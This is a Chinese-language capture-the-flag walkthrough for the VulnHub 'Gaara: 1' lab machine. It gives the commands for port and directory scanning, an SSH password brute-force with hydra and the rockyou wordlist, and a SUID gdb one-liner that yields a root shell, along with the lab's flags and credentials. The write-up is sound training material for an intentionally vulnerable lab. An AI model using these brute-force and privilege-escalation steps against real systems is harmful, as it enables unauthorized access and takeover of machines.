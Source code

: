 # Gaara: 1

2024-5-21 https://www.vulnhub.com/entry/gaara-1,629/

difficulty: easy

## IP

192.168.5.30

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 3ea36f6403331e76f8e498febee98e58 (RSA)
|   256 6c0eb500e742444865effed77ce664d5 (ECDSA)
|_  256 b751f2f9855766a865542e05f940d2f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Gaara
```

80 web 首页是张图片，源码也没发现什么信息。使用 gobuster 进行目录扫描：

```
gobuster dir -t 64 -u http://192.168.5.30/ -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -e

http://192.168.5.30/Cryoserver
```

http://192.168.5.30/Cryoserver 查看源码在最底部发下几个目录：

```
/Temari
/Kazekage
/iamGaara
```

挨个访问下，看看有什么，都是一串文字，再次使用 gobuster 对 3 个目录进行子目录扫描，什么都没扫出来。

http://192.168.5.30/iamGaara 中有一串字符串：f1MgN9mTf9SNbzRygcU，经过识别，发现是 base58 编码的，解码后为 gaara:ismyname

看上去像是 ssh 的用户和密码，尝试进行登陆，但是提示密码不对。看样子是用户对，密码还需要更大的字典去爆破，尝试使用 hydra + rockyou 进行爆破:

```
hydra -t 20 -l gaara -P ~/tools/dict/rockyou.txt ssh://192.168.5.30

[22][ssh] host: 192.168.5.30   login: gaara   password: iloveyou2
```

得到用户 ssh 凭据 gaara:iloveyou2，登陆 ssh 后，在 home 目录得到 flag：

```
gaara@Gaara:~$ ls -al
total 36
drwxr-xr-x 3 gaara gaara 4096 Dec 13  2020 .
drwxr-xr-x 3 root  root  4096 Dec 13  2020 ..
lrwxrwxrwx 1 root  root     9 Dec 13  2020 .bash_history -> /dev/null
-rw-r--r-- 1 gaara gaara  220 Dec 13  2020 .bash_logout
-rw-r--r-- 1 gaara gaara 3526 Dec 13  2020 .bashrc
-rw-r--r-- 1 gaara gaara   33 Dec 13  2020 flag.txt
-rw-r--r-- 1 gaara gaara   57 Dec 13  2020 Kazekage.txt
drwxr-xr-x 3 gaara gaara 4096 Dec 13  2020 .local
-rw-r--r-- 1 gaara gaara  807 Dec 13  2020 .profile
-rw------- 1 gaara gaara  102 Dec 13  2020 .Xauthority
gaara@Gaara:~$ cat flag.txt
5451d3eb27acb16c652277d30945ab1e
```

同时看到另外一个文件 Kazekage.txt：

```
gaara@Gaara:~$ cat Kazekage.txt
You can find Kazekage here....

L3Vzci9sb2NhbC9nYW1lcw==
```

得到提示 /usr/local/games，看看这个目录有什么。

```
gaara@Gaara:/usr/local/games$ cat .supersecret.txt

Godaime Kazekage:

+++++ +++[- >++++ ++++< ]>+++ +.<++ ++++[ ->+++ +++<] >+.-- ---.< +++++
+++[- >---- ----< ]>--- -.<++ +++++ ++[-> +++++ ++++< ]>+++ +++++ .<+++
[->-- -<]>- .++++ ++.<+ +++++ +++[- >---- ----- <]>-- --.<+ +++++ +++[-
>++++ +++++ <]>+. <+++[ ->--- <]>-- --.-- --.<+ ++[-> +++<] >++.. <+++[
->+++ <]>++ ++.<+ +++++ +++[- >---- ----- <]>-- ----- -.<++ +++++ ++[->
+++++ ++++< ]>+++ .<+++ [->-- -<]>- --.+. +++++ .---. <++++ ++++[ ->---
----- <]>-- ----- ----. <++++ +++++ [->++ +++++ ++<]> +++++ +++.< +++[-
>---< ]>-.+ +++++ .<+++ +++++ +[->- ----- ---<] >---- .<+++ +++++ [->++
+++++ +<]>+ ++.<+ ++[-> +++<] >+++. +++++ +.--- ----- -.--- ----- .<+++
+++++ [->-- ----- -<]>- ---.< +++++ +++[- >++++ ++++< ]>+++ +++.+ ++.++
+++.< +++[- >---< ]>-.< +++++ +++[- >---- ----< ]>--- -.<++ +++++ ++[->
+++++ ++++< ]>++. ----. --.-- ----- -.<++ +[->+ ++<]> +++++ +.<++ +[->-
--<]> ---.+ .++++ +.--- ----. <++++ ++++[ ->--- ----- <]>-- ----- .<+++
+++++ +[->+ +++++ +++<] >+++. <+++[ ->--- <]>-- -.--- ----. <++++ [->++
++<]> +++.< +++++ ++++[ ->--- ----- -<]>- --.<+ +++++ ++[-> +++++ +++<]
>++++ +.--- -.<++ ++[-> ++++< ]>++. <+++[ ->--- <]>-. +++.< +++[- >+++<
]>+++ +.<++ +++++ [->-- ----- <]>-- ----- --.<+ ++++[ ->--- --<]> -----
-.<++ +++++ [->++ +++++ <]>++ +.<++ +++[- >++++ +<]>+ ++++. +++++ ++.<+
+++++ +++[- >---- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >++++ .<+++
++[-> +++++ <]>.< ++++[ ->+++ +<]>+ .<+++ [->-- -<]>- ----. +.<++ +[->+
++<]> ++++. <++++ +++++ [->-- ----- --<]> .<
```

像是个 Brainfuck 码，看看解密得到什么 http://www.hiencode.com/brain.html ：

```
Did you really think you could find something that easily? Try Harder!
```

fuck 是个坑。

继续按常规思路寻找提权路径，suid 发现有 gdb，可以升级到 root 权限：

```
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

最终得到 root 权限：

```
# id
uid=1001(gaara) gid=1001(gaara) euid=0(root) egid=0(root) groups=0(root),1001(gaara)
# cd /root
# ls
root.txt
# cat root.txt


 ██████╗  █████╗  █████╗ ██████╗  █████╗
██╔════╝ ██╔══██╗██╔══██╗██╔══██╗██╔══██╗
██║  ███╗███████║███████║██████╔╝███████║
██║   ██║██╔══██║██╔══██║██╔══██╗██╔══██║
╚██████╔╝██║  ██║██║  ██║██║  ██║██║  ██║
 ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝

8a763d61f71db8e7aa237055de928d86

Congrats You have Rooted Gaara.

Give the feedback on Twitter if you Root this : @0xJin
```
